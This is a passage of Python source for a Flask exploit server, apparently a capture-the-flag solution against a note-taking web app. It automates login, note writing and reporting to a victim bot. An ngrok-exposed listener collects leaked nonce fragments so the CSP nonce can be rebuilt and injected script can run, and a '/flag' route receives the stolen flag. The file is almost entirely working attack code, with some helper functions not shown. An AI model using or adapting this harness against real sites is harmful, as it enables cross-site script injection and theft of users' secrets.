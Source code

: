 ```py
def report():
    r = s.get(url + '/report?id=0&username=' + user)

def logout():
    r = s.get(url + '/logout')

@app.route('/exploit')
def exploit(test=False):
    global user
    user = 'pwn'+str(random.randint(0, 1000000))
    logout()
    login()
    write_zero_note()
    write_first_note()
    if (test == False):
        print("reporting...")
        report()
    return "exploit for "+user+" done"

@app.route('/flag')
def flag():
    flag = request.args.get('flag')
    if flag is not None:
        print("flag: " + flag)
        return "You have been pwned"
    return "Pls give me flag"

@app.route('/')
def index():
    x = request.args.get('x')
    if x is not None:
        print("x: " + x)
        print("current nonce_substr: " + str(nonce_substr))
        nonce_substr.add(x)
        if len(nonce_substr) >= 30:
            nonce = retrieveNonce()
            print("nonce: " + nonce)
            create_script_nonce(nonce)

    return render_template('index.html', USERNAME=user)

if __name__ == '__main__':
    try:
        print('Public URL:', ngrok_url)
        app.run(host='localhost', port=5000)
    except Exception as e:
        print(e)
        print("aborting")
    finally:
        exit(0)
```
